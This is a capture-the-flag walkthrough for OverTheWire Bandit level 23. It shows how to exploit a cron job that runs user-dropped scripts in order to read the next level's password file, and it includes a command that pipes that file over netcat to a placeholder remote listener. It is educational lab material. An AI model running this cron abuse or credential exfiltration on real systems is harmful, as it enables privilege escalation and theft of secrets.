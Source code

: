 # bandit23

### Solution Steps:

1. Save the flag which was obtained from **bandit22**. This flag is actually the password to SSH into **bandit23**.
2. Now establish an SSH connection using `sudo ssh bandit23@bandit.labs.overthewire.org -p 2220`.
3. Here is our clue:
   1. A program is running automatically at regular intervals from cron, the time-based job scheduler.
   2. Look in /etc/cron.d/ for the configuration and see what command is being executed.
4. Once you will see the script, you will get to know that this script is checking for any type of file creation by user **bandit23**, in a directory mentioned in that script and if that file is executable, then it is executing it and after that deleting it as well.
5. We cannot list the contents of that directory as well. Also we cannot create any file in our home directory due to lack of such permissions.
6. However, we can create a directory in **/tmp/** dircetory and then we will create our shell script there. Why shell script? Because we will easily copy or move that script in that directory which is mentioned in the script, which is continuously running every minute as a cronjob.
7. So far in this game we have experienced that password for a level is usually stored in **/etc/bandit_pass/current_username** file. Therefor we will write a script to read the content of this file and then we can save it in our /tmp/ directory.
   > `cat /etc/bandit_pass/bandit24 > /tmp/sample_dir/pass`
8. We can also use netcat as well, like this
   > `cat /etc/bandit_pass/bandit24 | netcat ip_address_of_machine listening_port` 
9. Transfer the script in the directory which you have figured out in step 4 and wait for one minute. Once the script will run it will throw password to the path you have specified :)
10. Save this password and see you in next level :) 